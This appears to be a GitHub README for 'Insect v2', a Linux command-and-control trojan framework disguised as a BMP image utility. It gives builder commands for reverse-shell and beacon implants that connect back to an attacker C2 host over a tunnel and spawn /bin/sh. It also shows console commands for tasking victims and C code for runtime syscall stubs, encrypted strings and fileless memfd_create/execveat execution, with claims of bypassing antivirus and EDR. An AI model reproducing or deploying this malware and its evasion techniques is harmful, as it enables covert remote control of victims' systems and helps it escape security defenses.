

<div align="center" markdown="1">
  
  </br>
  <sup>Fileless Execution & Evasion</sup>
</div>

# Insect v2 - C2 Framework

Insect is a C2 trojan for fileless reverse shell & beacon Linux payloads.
This trojan hides itself as a 24-bit BMP image processing utility.
It uses **Dynamic Syscall Stubs**, **memfd_create**, **ChaCha20** encrypted string resources, **tunnel proxy** and **ICC Profile Encryptor** to evade static analysis.
The C2 server supports 2 types of payloads, **interactive** and **beacon**.

Manual syscall crafting is an old technique, but for Insect v2, I've refined the way stubs are built at runtime to stay under the radar of modern scanners. By constructing syscalls dynamically, the payload avoids the standard signatures that static AVs typically catch.

In real-world tests, it successfully bypassed every engine on VirusTotal. I also put it up against CrowdStrike Falcon, where it received a "green flag" with no detections from the static engine. During dynamic analysis, it only threw one minor suspicion and was ultimately cleared as safe too.

**Disclaimer**: Insect V2 is a work in progress, also I do not condone any illegal activities, You're free to use it for red teaming purposes. And modify it.


## Architecture

```
server.py       →  multi-session C2 console
main.c          →  revshell implant (interactive shell)
main_beacon.c   → beacon implant (task-driven polling)
```

## Build

We got 2 profiles:

```bash
# Interactive reverse shell
python3 builder.py --profile revshell --host <C2_IP> --port <C2_PORT> --domain <TUNNEL_DOMAIN>

# Task-driven beacon
python3 builder.py --profile beacon --host <C2_IP> --port <C2_PORT> --domain <TUNNEL_DOMAIN>
```

Both produce a `bmputil` binary. The builder encrypts all plaintext strings with ChaCha20 at build time, encrypts the compiled ELF with an ICC profile mask, splits it across named ELF sections, and generates a loader stub.

## Server

```bash
python3 server.py
```

Starts a listener on `0.0.0.0:8080` by default.

```
(insect) > list                       # show active sessions
(insect) > use rev-a1b2c3d4           # interact with a revshell
(insect) > task bea-deadbeef whoami   # queue a command for a beacon
(insect) > tasks bea-deadbeef         # view completed task results
(insect) > listen beacon 0.0.0.0 9090 # start an additional listener
(insect) > exit
```

Sessions are tracked via a unique 4-byte static ID embedded at build time.

### Revshell sessions

When executing on the target machine, the payload accepts dummy arguments to maintain the legitimacy:

```bash
./bmputil input.bmp output.bmp --grayscale
```

Under the hood it forks, connects back to the C2 via a Minecraft handshake tunnel (`playit.gg`), and waits for a `0xDEAD` trigger. Once triggered, it redirects stdin/stdout/stderr to the socket and spawns `/bin/sh`.

The C2 server holds revshell connections in a session registry. Use `use <id>` to attach your terminal to a session.

### Beacon sessions

Beacons connect, register with their embedded beacon_id, check for pending tasks, execute them via `fork` + `pipe` + `execve`, report results, then sleep for 30 seconds and reconnect.

Use `task <id> <command>` to queue work. Results are stored in memory and viewed with `tasks <id>`.

## Technicals.

Both profiles share the same evasion primitives:

### Dynamic Syscall Construction

```c
uint8_t stub[] = {
    0x48, 0x89, 0xf8, 0x48, 0x89, 0xf7, 0x48, 0x89, 0xd6, 
    0x48, 0x89, 0xca, 0x4d, 0x89, 0xc2, 0x4d, 0x89, 0xc8, 
    0x0f, 0x05, 0xc3
};

memcpy(buf + payload_size, stub, sizeof(stub));
long (*_sys)(long, long, long, long, long, long, long) = (void *)(buf + payload_size);
```

As discussed earlier, the syscall opcodes (`0F 05`) are constructed at runtime in executable memory to avoid static analysis.

### ChaCha20 String Encryption

```c
static void _transform_resource(
        const uint8_t *in, uint8_t *out, int len,
        const uint8_t nce[8], int add_null
) {
        uint32_t state[16] = {
                0x61707865 ^ __CHACHA_MASK__, 0x3320646e ^ __CHACHA_MASK__, // chacha_mask = random.randint(0x10000000, 0x7FFFFFFF)
                // ...
        };
}
```

Every string is encrypted at build time with a unique nonce. The XOR mask on the state constants blocks signature-based detections of the ChaCha20 setup.

### Fileless Execution (memfd_create + execveat)

```c
long fd = _sys(SYS_MEMFD_CREATE, (long)"", 0, 0, 0, 0, 0);

if (fd >= 0) {
    _sys(SYS_WRITE, fd, (long)buf, tot, 0, 0, 0);
    long p = _sys(SYS_FORK, 0, 0, 0, 0, 0, 0);
    if (p == 0) {
        char *args[] = { (char *)APP_NAME, NULL };
        _sys(SYS_EXECVEAT, fd, (long)"", (long)args, 0, AT_EMPTY_PATH, 0);
        _sys(SYS_EXIT, 1, 0, 0, 0, 0, 0);
    }
    _sys(SYS_CLOSE, fd, 0, 0, 0, 0, 0);
}
```

Payload executes entirely from memory via `memfd_create` + `execveat`.
Technically, memfd_create and execveat are detected by AVs but they are encrypted and built in runtime, and it surprisingly in real-world tests, does not get flagged.

### ICC Profile Encryption (Loader Stub)

The intermediate ELF is XOR-encrypted with a gamma-corrected ICC color lookup table and a random 32-byte key, then split across 8 named `.rodata.blk*` sections. The loader stub reassembles, decrypts, and executes it.


### Final Notes

This method is nothing new, rather its an old technique but, insect v2 modifies and re-implements techniques mentioned in various security writeups and malwares, you can check em out here:

### References

- **memfd_create + execveat fileless execution** - [hackerschoice/memexec](https://github.com/hackerschoice/memexec), [kernelmethod/tardis](https://github.com/kernelmethod/tardis)
- **In-Memory-Only ELF Execution** - [MagisterQuis (2018)](https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html)
- **Loading fileless Shared Objects (memfd_create + dlopen)** - [X-C3LL (2018)](https://x-c3ll.github.io/posts/fileless-memfd_create/)
- **Running ELF from memory / Ezuri loader** - [guitmz (2019)](https://www.guitmz.com/running-elf-from-memory/)
- **Super-Stealthy Droppers** - [0x00sec (2017)](https://0x00sec.org/t/super-stealthy-droppers/3715)
- **Assembly ELF memfd loader** - [zznop (2018)](https://gist.github.com/zznop/0117c24164ee715e750150633c7c1782)
- **Python in-memory ELF execution** - [Mitsurugi (2019)](http://0x90909090.blogspot.com/2019/02/executing-payload-without-touching.html)
- **A Fileless ELF Dropper** - [Hkopp (2023)](http://hkopp.github.io/2023/09/a-fileless-elf-dropper)
- **Dynamic syscall stubs** - [SysWhispers2](https://github.com/jthuraisamy/SysWhispers2), [SysWhispers3](https://github.com/klezVirus/SysWhispers3)
- **ChaCha20 (RFC 8439)** - [IETF RFC 8439](https://datatracker.ietf.org/doc/html/rfc8439)
- **Kiteshield ELF Packer** - [Qianxin XLab](https://blog.xlab.qianxin.com/kiteshield_packer_is_being_abused_by_linux_cyber_threat_actors)

